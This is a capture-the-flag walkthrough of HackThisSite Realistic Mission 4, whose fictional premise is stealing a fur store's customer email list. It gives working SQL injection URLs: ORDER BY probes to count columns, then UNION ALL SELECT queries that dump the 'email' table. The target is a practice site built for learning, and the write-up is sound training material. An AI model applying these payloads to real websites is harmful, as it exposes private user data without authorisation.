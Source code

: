 # Mission 4
https://www.hackthissite.org/playlevel/4/

## Overview
FAP is a company that slaughters animals and turns their skin into overpriced products which are then sold to rich bastards! Help animal rights activists increase political awareness by hacking their mailing list.

From: SaveTheWhales

Message: Hello, I was referred to you by a friend who says you know how to hack into computers and web sites - well I was wondering if you could help me out here. There's this local store who is killing hundreds of animals a day exclusively for the purpose of selling jackets and purses etc out of their skin! I have been to their website and they have an email list for their customers. I was wondering if you could somehow hack in and send me every email address on that list? I want to send them a message letting them know of the murder they are wearing. Just reply to this message with a list of the email addresses. Please?

## Solution
### Initial Observations
The website we're targeting has a list of customer email addresses and we need to retrieve them. A list of email addresses almost certainly means we're dealing with a database, and we've seen databases are susceptible to SQL injection attacks. Without even seeing the site in detail it sounds like we have our attack vector. But keep in mind this seems different than the SQL injection tactic we used in [Realistic Mission 2](https://github.com/jasonally/hack_this_site_missions/blob/master/realistic/mission_02.md), where we used a SQL injection to bypass a login screen. This mission seems more about dumping a database's content.

The mission website has two pages with product contents, generated using some sort of PHP script (as evidenced by the products.php literal which appears in the URL structure when you open those pages, similar in some respects to pages in [Realistic Mission 3](https://github.com/jasonally/hack_this_site_missions/blob/master/realistic/mission_03.md)). On the main page, there's a form to fill out to sign up for the mailing list. Enter a string which looks like a valid email address, click add to list, and you get a message saying 'Email added successfully'.

I thought maybe the solution was similar to the one in Mission 2, so I tried some of the common SQL injections I found [here](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/#ByPassingLoginScreens). None seemed to work, but I did get this error message: 'Error inserting into table "email"! Email not valid! Please contact an administrator of Fischer's'.

The error message never changed, so I concluded the solution wasn't as simple as putting the payload into the form box. But this message revealed an important detail: the table containing the email addresses we want is named email. If only there was somewhere I could run a SQL query like `SELECT * FROM email;` or `SELECT email FROM email;`, that would give me what I'm looking for.

### Finding Another Weakness
Since the mailing list form was a dead end, I went back to the two product listing pages, https://www.hackthissite.org/missions/realistic/4/products.php?category=1 and https://www.hackthissite.org/missions/realistic/4/products.php?category=2. That's when I realized these pages must be associated with another table. The category=1 and category=2 parts of the URLs are parameters for querying this second table. What happens if we give this table an invalid input, like a category value which doesn't exist? Ideally, I should get a 404 HTTP response.

I tried accessing https://www.hackthissite.org/missions/realistic/4/products.php?category=3 and a white page loaded. I didn't explicitly get a 404 response, so to confirm I opened developer tools, pulled open the network tab so I could view the flow of HTTP requests, and reloaded the page. Sure enough, I could see the document returned a 200 response code. In other words, we just gave the site an input it absolutely should have rejected as invalid, but it didn't. I then tried accessing https://www.hackthissite.org/missions/realistic/4/products.php?category=ABC and got a broken image icon in my response. Another promising sign!

Before going any further it's important to think about how this page loads, similar to what we did in Realistic Mission 2. The backend code clearly involves a SQL query again, and for a URL like https://www.hackthissite.org/missions/realistic/4/products.php?category=1, it's probably something like this:
```
page_category = getRequestString("category");

sql = "SELECT * FROM [products] WHERE Category ='" + page_category + "'"
```

We've got a URL where we can tamper with a SQL query, but this query is tied to the wrong table. We want email addresses in the email table, not whatever this table is. Fortunately, PortSwigger's [SQL injection](https://portswigger.net/web-security/sql-injection) content references multiple types of injections, including the [UNION attack](https://portswigger.net/web-security/sql-injection/union-attacks) which allows you to get data from different tables. I was already familiar with [UNION or UNION ALL](https://www.w3schools.com/sql/sql_ref_union.asp) commands through prior experience with SQL, but this seems relevant to the problem we're trying to solve. PortSwigger mentions, however, a successful UNION attack requires the individual queries to return the same number of columns. So we need to figure out how many columns are in both tables, products and email.

### Setting Up the UNION Attack
I saw hints that using the ORDER BY command would be helpful in learning about the products table schema. So I tried the following:
* https://www.hackthissite.org/missions/realistic/4/products.php?category=1 loads the page as intended.
* https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%201%20DESC and https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%201%20DASC flips the sorting of the page contents according to the pictures. This suggests the image data type is the first column in the products table.
* https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%202%20DESC AND https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%202%20DASC didn't change the page contents. But there's a common string, 'A big hairy fur coat that is made of fuzzy cute animals that we mercilessly slaughtered' in each product description, so this means the product description is probably the second column. It's a string data type.
* https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%203%20DESC and https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%203%20ASC sorts by price. This means price is the third column, probably as a string, too.
* https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%20420DESC and https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%20420ASC didn't change any sorting again. But many SQL tables have an ID column, so maybe this is it.
* URLs containing https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%205 returned the broken image icon. I think that means there's no fifth column. The products table only has four columns, which makes sense.

As far as we know the email table only has one column, but we can fake more using NULL in our SELECT statement, like this: `SELECT email, NULL, NULL, NULL FROM email`.

I tried https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20UNION%20ALL%20SELECT%20email,%20null,%20null,%20null%20FROM%20email. The page loads with the usual page contents, but if you scroll down there are nine additional broken images. This seems close, but the issue now is the data types aren't right. If the first column of the products table is an image, SQL is expecting the first column of email to also be an image. The email column is a string, so we need that column to line up with another string column in the product table. The second column of the products table will do the trick. We need to change our SQL query to `SELECT NULL, email, NULL, NULL FROM email` or `SELECT NULL, NULL, email, NULL FROM email`.

Try https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20UNION%20ALL%20SELECT%20null,%20email,%20null,%20null%20FROM%20email or https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20UNION%20ALL%20SELECT%20null,%20null,%20email,%20null%20FROM%20email, and there are your email addresses. Copy them and message them to SaveTheWhales.

## Key Concept
SQL injection, specifically UNION attacks

## Key Ideas
This mission expanded on prior SQL injection knowledge. We've now seen an example of how SQL injections can help us retrieve data from other tables in a site's database. This is in addition to Realistic Mission 2, where we used a SQL injection to bypass a login screen.

This discovery came at the expense of realizing the mailing list signup functionality was a bit of a misdirection. By tampering with it we were able to learn the name of the table we were targeting, but eventually I realized I needed to try my fortunes elsewhere on the site. Realizing I could enter invalid inputs into the https://www.hackthissite.org/missions/realistic/4/products.php?category= made me realize I was onto something, even though I needed a few hints to properly sketch out what the solution entailed.